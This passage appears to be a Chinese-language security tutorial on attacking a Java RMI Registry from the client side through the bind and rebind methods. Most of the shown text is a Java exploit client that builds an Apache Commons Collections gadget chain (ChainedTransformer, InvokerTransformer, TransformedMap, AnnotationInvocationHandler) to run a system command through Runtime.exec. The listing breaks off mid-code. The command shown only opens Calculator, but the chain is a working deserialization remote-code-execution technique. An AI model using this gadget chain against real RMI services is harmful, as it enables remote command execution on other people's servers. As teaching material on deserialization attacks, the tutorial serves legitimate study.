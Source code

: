 攻击 Registry 就是客户端利用与 RMI Registry 的几种交互方式进行攻击，不同与前面的攻击服务端可以直接对序列化数据进行反序列化，我们需要利用前面分析的几种能够利用的交互方式进行反序列化。

##### bind&rebind

根据我们前面在`RegistryImpl_Skel`类的源码分析得知，`bind()`方法与`rebind()`方法只对 String 和 Remote 类型对象进行反序列化，因此我们需要将我们的恶意对象从 Object 类型转换为 Remote 等符合条件的类型对象。转换方式可以通过动态代理完成。

服务端和前面保持一样，修改客户端--`RmiClient`
```java
package com.rmi.client;

import com.rmi.server.UserInterface;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2023/1/4 16:39
 */
public class RmiClient {
    public static void main(String[] args) throws Exception {
        // CC链gadget
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        // 创建Map对象
        Map<Object, Object> map = new HashMap<>();
        map.put("value","value");
        // 调用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
```